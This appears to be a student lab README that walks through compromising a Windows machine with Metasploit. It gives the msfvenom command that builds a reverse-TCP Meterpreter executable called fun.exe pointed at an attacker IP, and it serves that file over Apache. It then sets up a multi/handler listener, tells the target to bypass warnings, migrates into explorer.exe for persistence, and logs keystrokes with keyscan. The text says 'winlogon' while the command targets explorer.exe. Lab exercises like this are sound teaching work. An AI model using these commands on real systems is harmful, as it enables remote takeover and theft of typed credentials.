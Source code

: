 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![ifconfig](https://github.com/user-attachments/assets/5f9a4e0a-3576-4a38-ac24-bb72980e911a)



Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.228.13 -f exe > fun.exe
## OUTPUT:
![msvenom](https://github.com/user-attachments/assets/7b6d25d9-340c-4e09-9e7c-4a2b4384c59a)

![venom2](https://github.com/user-attachments/assets/c742694c-8da8-49f1-a01b-c8a26deeb60d)



copy the fun.exe into the apache /var/www/html folder
## OUTPUT:

Start apache server
sudo systemctl apache2 start
![sudocpy](https://github.com/user-attachments/assets/b079e79b-6a31-42ce-8c09-1c8e3e85d6dc)


![apache2](https://github.com/user-attachments/assets/377121bc-835b-4c6c-bfc2-3fa63ddd5372)



Invoke msfconsole:
## OUTPUT:

![msfconsole](https://github.com/user-attachments/assets/f8864fa3-0cb3-4608-a4b3-7a43f31be738)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![help](https://github.com/user-attachments/assets/6abfc156-8d85-46a8-a82d-a6e321117885)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT:
![keyscan](https://github.com/user-attachments/assets/43c33793-8b0f-4cf3-8084-b4d86a9d68d8)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

![apache server](https://github.com/user-attachments/assets/e6ef1d7c-f590-4ea1-846a-6e0cff0d5921)


Bypass any warning boxes, double-click the file, and allow it to run.
![fun](https://github.com/user-attachments/assets/0d1519b6-111f-43e6-a26c-f6178c2d8787)


On kali give the command exploit

![keyscan](https://github.com/user-attachments/assets/44bc5ff1-fd00-408b-84bc-9eef1e3b6610)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![meterpreter](https://github.com/user-attachments/assets/c19605c3-ec1e-4f42-9925-f81bb03e6b54)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![netstat](https://github.com/user-attachments/assets/45b50730-48c6-4fbf-a4f6-6c7885fce3cb)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![notepad](https://github.com/user-attachments/assets/4b639cd3-f26e-4d38-bcb4-4f412b44f6a7)

keyscan_dump	Shows the keystrokes captured so far

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
